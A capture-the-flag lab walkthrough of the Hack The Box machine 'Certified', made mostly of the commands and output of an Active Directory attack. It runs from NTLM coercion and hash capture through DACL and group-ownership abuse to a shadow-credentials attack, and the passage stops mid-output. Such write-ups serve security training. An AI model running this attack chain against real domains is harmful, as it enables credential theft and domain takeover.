


`Box: Windows`
`Level: Medium`
### `Index`
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap Scan`](#`Initial%20Nmap%20Scan`)
3. [`RPC Enumerations`](#`RPC%20Enumerations`)
4. [`SMB Enumeration`](#`SMB%20Enumeration`)
	1. [`NetExec SMB Enumerations`](#`NetExec%20SMB%20Enumerations`)
	2. [`Scan Coerce Vulnerability NetExec`](#`Scan%20Coerce%20Vulnerability%20NetExec`)
	3. [`Grabbing NTLM Hash for disabled User DC01$`](#`Grabbing%20NTLM%20Hash%20for%20disabled%20User%20DC01$`)
5. [`LDAP Enumerations`](#`LDAP%20Enumerations`)
6. [`BloodyAD Enumerations`](#`BloodyAD%20Enumerations`)
	1. [`Setting up Judith as the Owner of the Management Group`](#`Setting%20up%20Judith%20as%20the%20Owner%20of%20the%20Management%20Group`)
	2. [`Adding GenericAll Rights to the Management Group`](#`Adding%20GenericAll%20Rights%20to%20the%20Management%20Group`)
	3. [`Modifying DACL to assign WriteMembers`](#`Modifying%20DACL%20to%20assign%20WriteMembers`)
	4. [`adding Judith to the Management Group`](#`adding%20Judith%20to%20the%20Management%20Group`)
	5. [`Adding a Shadow Credentials for management_svc`](#`Adding%20a%20Shadow%20Credentials%20for%20management_svc`)
	6. [`Obtaining TGT using the pfx for the user management_svc`](#`Obtaining%20TGT%20using%20the%20pfx%20for%20the%20user%20management_svc`)
	7. [`Getting NTLM Hash for user management_svc`](#`Getting%20NTLM%20Hash%20for%20user%20management_svc`)
7. [`Privilege Escalation`](#`Privilege%20Escalation`)
	1. [`ESC9` - https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/#esc8-ad-cs-relay-attack](#`ESC9`%20-%20https%20//swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-certificate-services/%20esc8-ad-cs-relay-attack)
	2. [`Grab the hash for ca_operator`](#`Grab%20the%20hash%20for%20ca_operator`)
	3. [`Change UserPrincipalName of Ca_operator to be admin`](#`Change%20UserPrincipalName%20of%20Ca_operator%20to%20be%20admin`)
	4. [`Finding Vulnerable Certificate Template`](#`Finding%20Vulnerable%20Certificate%20Template`)
	5. [`Requesting Vulnerable Certificate`](#`Requesting%20Vulnerable%20Certificate`)
	6. [`Setting up UPN `](#`Setting%20up%20UPN%20`)
	7. [`Grabbing NTLM Hash for Administrator`](#`Grabbing%20NTLM%20Hash%20for%20Administrator`)
	8. [`Impacket-psexec to login as Admin and grab both flags`](#`Impacket-psexec%20to%20login%20as%20Admin%20and%20grab%20both%20flags`)
### `Box Info`
```
Initial Attack vector is to add the user in the group following to that giving it a specific permissions and perform ESC9 to gain administrator shell.
As is common in real life Windows pentests, you will start the Certified box with credentials for the following account: judith.mader / judith09

Remember to use the initial credentials: judith.mader / judith09
```
### `Initial Nmap Scan`

```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.11.41 
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-11 11:46:38Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-11T11:48:24+00:00; +2h08m46s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-11T11:48:24+00:00; +2h08m46s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-11-11T11:48:24+00:00; +2h08m46s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2024-11-11T11:48:24+00:00; +2h08m46s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49732/tcp open  msrpc         Microsoft Windows RPC
```

Notice that the port `5989` is closed for WinRm. We do have a valid credentials and i tried the WinRm but it didn't worked. 
### `RPC Enumerations`
```
# rpcclient -U 'certified.htb'/'judith.mader'%'judith09' 10.10.11.41
rpcclient $> srvinfo
	10.10.11.41    Wk Sv PDC Tim NT     
	platform_id     :       500
	os version      :       10.0
	server type     :       0x80102b
	
rpcclient $> dsenumdomtrusts
1 domains returned
certified.htb (CERTIFIED)

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[judith.mader] rid:[0x44f]
user:[management_svc] rid:[0x451]
user:[ca_operator] rid:[0x452]
user:[alexander.huges] rid:[0x641]
user:[harry.wilson] rid:[0x642]
user:[gregory.cameron] rid:[0x643]

rpcclient $> queryuser 0x451
        User Name   :   management_svc
        Full Name   :   management service
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 31 Dec 1969 19:00:00 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Mon, 13 May 2024 11:30:51 EDT
        Password can change Time :      Tue, 14 May 2024 11:30:51 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x451
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...

rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Management] rid:[0x450]

rpcclient $> queryusergroups 0x451
	group rid:[0x450] attr:[0x7]
	group rid:[0x201] attr:[0x7]
```

If you look at the last comand, the `queryusergroups 0x451` state that the user `management_svc` is also part of `Domain Users` and `Management` group. 

```
rpcclient $> enumprivs
found 35 privileges

SeCreateTokenPrivilege          0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege           0:3 (0x0:0x3)
SeLockMemoryPrivilege           0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege                0:5 (0x0:0x5)
SeMachineAccountPrivilege               0:6 (0x0:0x6)
SeTcbPrivilege          0:7 (0x0:0x7)
SeSecurityPrivilege             0:8 (0x0:0x8)
SeTakeOwnershipPrivilege                0:9 (0x0:0x9)
SeLoadDriverPrivilege           0:10 (0x0:0xa)
SeSystemProfilePrivilege                0:11 (0x0:0xb)
SeSystemtimePrivilege           0:12 (0x0:0xc)
SeProfileSingleProcessPrivilege                 0:13 (0x0:0xd)
SeIncreaseBasePriorityPrivilege                 0:14 (0x0:0xe)
SeCreatePagefilePrivilege               0:15 (0x0:0xf)
SeCreatePermanentPrivilege              0:16 (0x0:0x10)
SeBackupPrivilege               0:17 (0x0:0x11)
SeRestorePrivilege              0:18 (0x0:0x12)
SeShutdownPrivilege             0:19 (0x0:0x13)
SeDebugPrivilege                0:20 (0x0:0x14)
SeAuditPrivilege                0:21 (0x0:0x15)
SeSystemEnvironmentPrivilege            0:22 (0x0:0x16)
SeChangeNotifyPrivilege                 0:23 (0x0:0x17)
SeRemoteShutdownPrivilege               0:24 (0x0:0x18)
SeUndockPrivilege               0:25 (0x0:0x19)
SeSyncAgentPrivilege            0:26 (0x0:0x1a)
SeEnableDelegationPrivilege             0:27 (0x0:0x1b)
SeManageVolumePrivilege                 0:28 (0x0:0x1c)
SeImpersonatePrivilege          0:29 (0x0:0x1d)
SeCreateGlobalPrivilege                 0:30 (0x0:0x1e)
SeTrustedCredManAccessPrivilege                 0:31 (0x0:0x1f)
SeRelabelPrivilege              0:32 (0x0:0x20)
SeIncreaseWorkingSetPrivilege           0:33 (0x0:0x21)
SeTimeZonePrivilege             0:34 (0x0:0x22)
SeCreateSymbolicLinkPrivilege           0:35 (0x0:0x23)
SeDelegateSessionUserImpersonatePrivilege               0:36 (0x0:0x24)

rpcclient $> lsaenumsid
found 19 SIDs

S-1-5-90-0
S-1-5-9
S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
S-1-5-80-3139157870-2983391045-3678747466-658725712-1809340420
S-1-5-80-0
S-1-5-6
S-1-5-32-568
S-1-5-32-559
S-1-5-32-554
S-1-5-32-551
S-1-5-32-550
S-1-5-32-549
S-1-5-32-548
S-1-5-32-545
S-1-5-32-544
S-1-5-20
S-1-5-19
S-1-5-11
S-1-1-0

```
### `SMB Enumeration`

We have read access to IPC$, NETLOGON and SYSVOL but upon looking at it, nothing interesting comes out of it. 
###### `NetExec SMB Enumerations`
```
# netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09' --users
```


```
# netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09' --groups
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [+] Enumerated domain group(s)
SMB         10.10.11.41     445    DC01             Management                               membercount: 1
SMB         10.10.11.41     445    DC01             DnsUpdateProxy                           membercount: 0
SMB         10.10.11.41     445    DC01             DnsAdmins                                membercount: 0
SMB         10.10.11.41     445    DC01             Enterprise Key Admins                    membercount: 0
SMB         10.10.11.41     445    DC01             Key Admins                               membercount: 0
SMB         10.10.11.41     445    DC01             Protected Users                          membercount: 0
SMB         10.10.11.41     445    DC01             Cloneable Domain Controllers             membercount: 0
SMB         10.10.11.41     445    DC01             Enterprise Read-only Domain Controllers  membercount: 0
SMB         10.10.11.41     445    DC01             Read-only Domain Controllers             membercount: 0
SMB         10.10.11.41     445    DC01             Denied RODC Password Replication Group   membercount: 8
SMB         10.10.11.41     445    DC01             Allowed RODC Password Replication Group  membercount: 0
SMB         10.10.11.41     445    DC01             Terminal Server License Servers          membercount: 0
SMB         10.10.11.41     445    DC01             Windows Authorization Access Group       membercount: 1
SMB         10.10.11.41     445    DC01             Incoming Forest Trust Builders           membercount: 0
SMB         10.10.11.41     445    DC01             Pre-Windows 2000 Compatible Access       membercount: 2
SMB         10.10.11.41     445    DC01             Account Operators                        membercount: 0
SMB         10.10.11.41     445    DC01             Server Operators                         membercount: 0
SMB         10.10.11.41     445    DC01             RAS and IAS Servers                      membercount: 0
SMB         10.10.11.41     445    DC01             Group Policy Creator Owners              membercount: 1
SMB         10.10.11.41     445    DC01             Domain Guests                            membercount: 0
SMB         10.10.11.41     445    DC01             Domain Users                             membercount: 0
SMB         10.10.11.41     445    DC01             Domain Admins                            membercount: 1
SMB         10.10.11.41     445    DC01             Cert Publishers                          membercount: 1
SMB         10.10.11.41     445    DC01             Enterprise Admins                        membercount: 1
SMB         10.10.11.41     445    DC01             Schema Admins                            membercount: 1
SMB         10.10.11.41     445    DC01             Domain Controllers                       membercount: 0
SMB         10.10.11.41     445    DC01             Domain Computers                         membercount: 0
SMB         10.10.11.41     445    DC01             Storage Replica Administrators           membercount: 0
SMB         10.10.11.41     445    DC01             Remote Management Users                  membercount: 1
SMB         10.10.11.41     445    DC01             Access Control Assistance Operators      membercount: 0
SMB         10.10.11.41     445    DC01             Hyper-V Administrators                   membercount: 0
SMB         10.10.11.41     445    DC01             RDS Management Servers                   membercount: 0
SMB         10.10.11.41     445    DC01             RDS Endpoint Servers                     membercount: 0
SMB         10.10.11.41     445    DC01             RDS Remote Access Servers                membercount: 0
SMB         10.10.11.41     445    DC01             Certificate Service DCOM Access          membercount: 1
SMB         10.10.11.41     445    DC01             Event Log Readers                        membercount: 0
SMB         10.10.11.41     445    DC01             Cryptographic Operators                  membercount: 0
SMB         10.10.11.41     445    DC01             IIS_IUSRS                                membercount: 0
SMB         10.10.11.41     445    DC01             Distributed COM Users                    membercount: 0
SMB         10.10.11.41     445    DC01             Performance Log Users                    membercount: 0
SMB         10.10.11.41     445    DC01             Performance Monitor Users                membercount: 0
SMB         10.10.11.41     445    DC01             Network Configuration Operators          membercount: 0
SMB         10.10.11.41     445    DC01             Remote Desktop Users                     membercount: 0
SMB         10.10.11.41     445    DC01             Replicator                               membercount: 0
SMB         10.10.11.41     445    DC01             Backup Operators                         membercount: 0
SMB         10.10.11.41     445    DC01             Print Operators                          membercount: 0
SMB         10.10.11.41     445    DC01             Guests                                   membercount: 2
SMB         10.10.11.41     445    DC01             Users                                    membercount: 3
SMB         10.10.11.41     445    DC01             Administrators                           membercount: 3
```
###### `Scan Coerce Vulnerability NetExec`
```
 netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09' -M coerce_plus
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
COERCE_PLUS 10.10.11.41     445    DC01             VULNERABLE, DFSCoerce
COERCE_PLUS 10.10.11.41     445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.10.11.41     445    DC01             VULNERABLE, MSEven
```

###### `Grabbing NTLM Hash for disabled User DC01$`
First start the Responder -I tun0 than the following command
```
# netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09' -M coerce_plus -o LISTENER=10.10.14.2
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
COERCE_PLUS 10.10.11.41     445    DC01             VULNERABLE, DFSCoerce
COERCE_PLUS 10.10.11.41     445    DC01             Exploit Success, netdfs\NetrDfsRemoveRootTarget
COERCE_PLUS 10.10.11.41     445    DC01             Exploit Success, netdfs\NetrDfsAddStdRoot
COERCE_PLUS 10.10.11.41     445    DC01             Exploit Success, netdfs\NetrDfsRemoveStdRoot
COERCE_PLUS 10.10.11.41     445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.10.11.41     445    DC01             Exploit Success, lsarpc\EfsRpcAddUsersToFile
COERCE_PLUS 10.10.11.41     445    DC01             VULNERABLE, MSEven
```
On the Responder side,
```
$ sudo responder -A -I tun0
[+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[SMB] NTLMv2-SSP Client   : 10.10.11.41
[SMB] NTLMv2-SSP Username : CERTIFIED\DC01$
[SMB] NTLMv2-SSP Hash     : DC01$::CERTIFIED:f0f197dfc362dff2:8B62BE7956A726BB0565359708D13A4C:010100000000000080729853F733DB01F6CF6D68319210980000000002000800560057004700540001001E00570049004E002D004300440037005900340038003000450053004E00390004003400570049004E002D004300440037005900340038003000450053004E0039002E0056005700470054002E004C004F00430041004C000300140056005700470054002E004C004F00430041004C000500140056005700470054002E004C004F00430041004C000700080080729853F733DB01060004000200000008003000300000000000000000000000004000004604AD3615FD3C318444EE332B510D874BBAB8268B18D12B2DE05E693B89D1320A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0032000000000000000000   
```

Cracking the above NetNTLMv2 Hash and failed.
```
$ sudo hashcat -m 5600 -a 0 dcntlm /usr/share/wordlists/rockyou.txt 
Session..........: hashcat                                
Status...........: Exhausted
```

```
# netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09' -M enum_ca        
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
ENUM_CA     10.10.11.41     445    DC01             Active Directory Certificate Services Found.
ENUM_CA     10.10.11.41     445    DC01             http://10.10.11.41/certsrv/certfnsh.asp

```

Along with this I ran couple of modules but nothing interesting comes out of it.

### `LDAP Enumerations`
```
# ldapsearch -H ldap://10.10.11.41 -x -s base -b '' "(objectClass=*)" "*" +
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=certified,DC=htb
ldapServiceName: certified.htb:dc01$@CERTIFIED.HTB
isGlobalCatalogReady: TRUE
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=certified,DC=htb
serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configur
 ation,DC=certified,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=certified,DC=htb
namingContexts: DC=certified,DC=htb
namingContexts: CN=Configuration,DC=certified,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=certified,DC=htb
namingContexts: DC=DomainDnsZones,DC=certified,DC=htb
namingContexts: DC=ForestDnsZones,DC=certified,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 86170
dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
 CN=Sites,CN=Configuration,DC=certified,DC=htb
dnsHostName: DC01.certified.htb
defaultNamingContext: DC=certified,DC=htb
currentTime: 20241111125852.0Z
configurationNamingContext: CN=Configuration,DC=certified,DC=htb
```

### `BloodyAD Enumerations`

Getting the list of group for which `judith.mader` is part of. 
```
# python bloodyAD.py -d "certified.htb" -u "judith.mader" -p "judith09" --dc-ip 10.10.11.41 --host 10.10.11.41 -v DEBUG get membership judith.mader
[*] Trying to connect to 10.10.11.41...
[+] Connection successful

distinguishedName: CN=Users,CN=Builtin,DC=certified,DC=htb
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Domain Users,CN=Users,DC=certified,DC=htb
objectSid: S-1-5-21-729746778-2675978091-3820388244-513
sAMAccountName: Domain Users
```

Let's check the same thing for the `management_svc` user.
```
# python bloodyAD.py -d "certified.htb" -u "judith.mader" -p "judith09" --dc-ip 10.10.11.41 --host 10.10.11.41 -v DEBUG get membership management_svc
[*] Trying to connect to 10.10.11.41...
[+] Connection successful

distinguishedName: CN=Users,CN=Builtin,DC=certified,DC=htb
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Remote Management Users,CN=Builtin,DC=certified,DC=htb
objectSid: S-1-5-32-580
sAMAccountName: Remote Management Users

distinguishedName: CN=Domain Users,CN=Users,DC=certified,DC=htb
objectSid: S-1-5-21-729746778-2675978091-3820388244-513
sAMAccountName: Domain Users

distinguishedName: CN=Management,CN=Users,DC=certified,DC=htb
objectSid: S-1-5-21-729746778-2675978091-3820388244-1104
sAMAccountName: Management
```

```
# python bloodyAD.py -d "certified.htb" -u "judith.mader" -p "judith09" --dc-ip 10.10.11.41 --host 10.10.11.41 -v DEBUG get object 'management_svc' --attr serviceprincipalname
[*] Trying to connect to 10.10.11.41...
[+] Connection successful

distinguishedName: CN=management service,CN=Users,DC=certified,DC=htb
servicePrincipalName: certified.htb/management_svc.DC01
```

###### `Setting up Judith as the Owner of the Management Group`

```
# python bloodyAD.py -d "certified.htb" -u "judith.mader" -p "judith09" --dc-ip 10.10.11.41 --host 10.10.11.41 -v DEBUG set owner 'CN=Management,CN=Users,DC=certified,DC=htb' 'judith.mader'
[*] Trying to connect to 10.10.11.41...
[+] Connection successful
[*] Old Security Descriptor: O:S-1-5-21-729746778-2675978091-3820388244-512
[+] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on CN=Management,CN=Users,DC=certified,DC=htb
```
###### `Adding GenericAll Rights to the Management Group`

```
# python bloodyAD.py -d "certified.htb" -u "judith.mader" -p "judith09" --dc-ip 10.10.11.41 --host 10.10.11.41 -v DEBUG add genericAll 'CN=Management,CN=Users,DC=certified,DC=htb' 'judith.mader'
[*] Trying to connect to 10.10.11.41...
[+] Connection successful
[*] Old Security Descriptor: D:AI(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)(OA;;CR;ab721a55-1e2f-11d0-9819-00aa0040529b;;S-1-5-11)(A;;0xf01ff;;;S-1-5-21-729746778-2675978091-3820388244-512)(A;CI;WO;;;S-1-5-21-729746778-2675978091-3820388244-1103)(A;;0xf01ff;;;S-1-5-32-548)(A;;0x20094;;;S-1-5-10)(A;;0x20094;;;S-1-5-11)(A;;0xf01ff;;;S-1-5-18)(OA;CIIOID;RP;4c164200-20c0-11d0-a768-00aa006e0529;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;4c164200-20c0-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;5f202010-79a5-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;bc0ac240-79a9-11d0-9020-00c04fc2d4cf;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;59ba2f42-79a2-11d0-9020-00c04fc2d3cf;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIIOID;RP;037088f8-0ae1-11d2-b422-00a0c968f939;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIID;0x30;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-729746778-2675978091-3820388244-526)(OA;CIID;0x30;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-729746778-2675978091-3820388244-527)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-3-0)(OA;CIIOID;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-10)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-9)(OA;CIID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a9c-0de6-11d0-a285-00aa003049e2;S-1-5-9)(OA;CIIOID;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-9)(OA;CIIOID;WP;ea1b7b93-5e48-46d5-bc6c-4df4fda78a35;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-10)(OA;CIIOID;0x20094;;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-32-554)(OA;CIID;0x20094;;bf967a9c-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;CIIOID;0x20094;;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-32-554)(OA;OICIID;0x30;3f78c3e5-f79a-46bd-a0b8-9d18116ddc79;;S-1-5-10)(OA;CIID;0x130;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;S-1-5-10)(A;CIID;0xf01ff;;;S-1-5-21-729746778-2675978091-3820388244-519)(A;CIID;LC;;;S-1-5-32-554)(A;CIID;0xf01bd;;;S-1-5-32-544)
[+] judith.mader has now GenericAll on CN=Management,CN=Users,DC=certified,DC=htb
```
###### `Modifying DACL to assign WriteMembers`

```
# python ../dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20241111-055503.bak
[*] DACL modified successfully!
```

###### `adding Judith to the Management Group`
```
# python bloodyAD.py -d "certified.htb" -u "judith.mader" -p "judith09" --dc-ip 10.10.11.41 --host 10.10.11.41 -v DEBUG add groupMember 'management' 'judith.mader'
[*] Trying to connect to 10.10.11.41...
[+] Connection successful
[+] judith.mader added to management

```

```
# python bloodyAD.py -d "certified.htb" -u "judith.mader" -p "judith09" --dc-ip 10.10.11.41 --host 10.10.11.41 -v DEBUG get membership judith.mader  
[*] Trying to connect to 10.10.11.41...
[+] Connection successful

distinguishedName: CN=Users,CN=Builtin,DC=certified,DC=htb
objectSid: S-1-5-32-545
sAMAccountName: Users

distinguishedName: CN=Domain Users,CN=Users,DC=certified,DC=htb
objectSid: S-1-5-21-729746778-2675978091-3820388244-513
sAMAccountName: Domain Users

distinguishedName: CN=Management,CN=Users,DC=certified,DC=htb
objectSid: S-1-5-21-729746778-2675978091-3820388244-1104
sAMAccountName: Management
```

###### `Adding a Shadow Credentials for management_svc`
```
# certipy-ad shadow add -u 'judith.mader@certified.htb' -p 'judith09' -account 'management_svc' -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.234.2'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.11.41:636 - ssl
[+] Default path: DC=certified,DC=htb
[+] Configuration path: CN=Configuration,DC=certified,DC=htb
[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '887ca04e-ddf7-d2ec-a70a-bd5217237cc9'
<KeyCredential structure at 0x7f1c9fdd3080>
  | Owner: CN=management service,CN=Users,DC=certified,DC=htb
  | Version: 0x200
  | KeyID: OuwJo8zcYBcBoA9sBP9VvCTDMsKt8K+kmX95x8gsRHw=
  | KeyHash: 4fd665e583d293f4c6781302f38f71e1a9bbf07e37782afa78e9ab9c53dea8d1
  | RawKeyMaterial: <dsinternals.common.cryptography.RSAKeyMaterial.RSAKeyMaterial object at 0x7f1c9fdd30b0>
  |  | Exponent (E): 65537
